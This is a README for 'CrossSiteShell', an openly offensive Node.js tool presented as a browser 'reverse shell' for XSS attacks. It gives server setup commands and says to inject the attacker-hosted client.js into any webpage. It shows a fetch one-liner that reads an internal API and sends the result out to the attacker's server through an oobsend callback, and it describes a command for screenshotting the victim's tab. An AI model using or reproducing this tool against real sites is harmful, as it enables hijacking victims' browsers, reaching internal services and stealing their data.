 # CrossSiteShell

A javascript/nodejs "reverse shell" that makes it easier to interact with the victim's browser during XSS attacks.

![demo gif](/img/demo.gif)

## Usage

Run the following commands to start up the server:
```
npm install
node server.js
```

Then import the script located at `http(s)://yourserver/client.js` in any webpage.

### Asynchronous data exfiltration
By default, the commands are executed through the eval function which is not asynchronous. To overcome this, I created a callback function (`window.oobsend(string)`) that sends data to the server asynchronously. Here's an example of how to use it to communicate with an internal API:

```js
fetch('https://internalservice/api').then(x => x.text().then(oobsend))
```

### Taking screenshots
By using the `.ss` command in the console, CrossSiteShell will attempt to take a screenshot of the victims tab. This is achieved by importing another library (html2canvas) that converts the HTML/CSS into a canvas and saves it's content as an image. The image should be saved to your disk after it gets received.

### HTTPS
HTTPS is not supported by default. I'd recommend using a reverse proxy such as nginx to redirect traffic to the script.